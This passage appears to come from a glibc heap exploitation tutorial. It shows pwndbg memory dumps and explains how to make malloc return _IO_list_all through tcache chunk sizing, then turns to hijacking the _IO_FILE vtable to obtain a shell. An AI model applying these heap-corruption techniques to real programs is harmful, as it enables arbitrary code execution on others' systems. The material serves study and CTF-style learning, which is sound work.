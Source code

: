 ```C
0x5566598ef1f0	0x0000000000000000	0x0000000000000000	................
0x5566598ef200	0x0000000000000000	0x0000000000000000	................
0x5566598ef210	0x0000000000000000	0x0000000000000000	................
0x5566598ef220	0x0000000000000000	0x0000000000000000	................
0x5566598ef230	0x0000000000000000	0x0000000000000000	................
0x5566598ef240	0x0000000000000000	0x0000000000000000	................
0x5566598ef250	0x0000000000000000	0x0000000000000000	................
0x5566598ef260	0x0000000000000000	0x0000000000000000	................
0x5566598ef270	0x0000000000000000	0x0000000000000000	................
0x5566598ef280	0x0000000000000000	0x0000000000000000	................
0x5566598ef290	0x0000000000000000	0x0000000000000081	................
0x5566598ef2a0	0x00000005566598ef	0x0000000000000000	..eV............
0x5566598ef2b0	0x00007f9fe0ff6680	0x414141414141000a	.f........AAAAAA

```

as you can see 0x5566598ef2b0 is having the address of `_IO_list_all` , `(0x5566598ef2b0 - 0x5566598ef090 )/8 * 0x10 + 0x20 = 0x460 ` , `0x5566598ef090 is the tcache bin chunk 0x20 ` so we need to request chunk of size 0x460 and malloc will return `_IO_list_all` for us.
Nice , This technich work also in glibc 2.27 - 2.35 . Nice 

Now let go with how to hijack _IO_file-> vtable


Remember in the good old day , with glibc 2.23 we can just overwirte _IO_FILE->vtable to some address we control and we will be able to get a shell. 

```C
pwndbg> p _IO_2_1_stdout_
$5 = {
  file = {
    _flags = -72537977,
    _IO_read_ptr = 0x7f9fe0ff6803 <_IO_2_1_stdout_+131> "",
    _IO_read_end = 0x7f9fe0ff6803 <_IO_2_1_stdout_+131> "",
    _IO_read_base = 0x7f9fe0ff6803 <_IO_2_1_stdout_+131> "",
    _IO_write_base = 0x7f9fe0ff6803 <_IO_2_1_stdout_+131> "",
    _IO_write_ptr = 0x7f9fe0ff6803 <_IO_2_1_stdout_+131> "",
    _IO_write_end = 0x7f9fe0ff6803 <_IO_2_1_stdout_+131> "",
    _IO_buf_base = 0x7f9fe0ff6803 <_IO_2_1_stdout_+131> "",
    _IO_buf_end = 0x7f9fe0ff6804 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7f9fe0ff5aa0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x7f9fe0ff7a70 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7f9fe0ff59a0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = -1,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7f9fe0ff2600 <_IO_file_jumps>
}
```
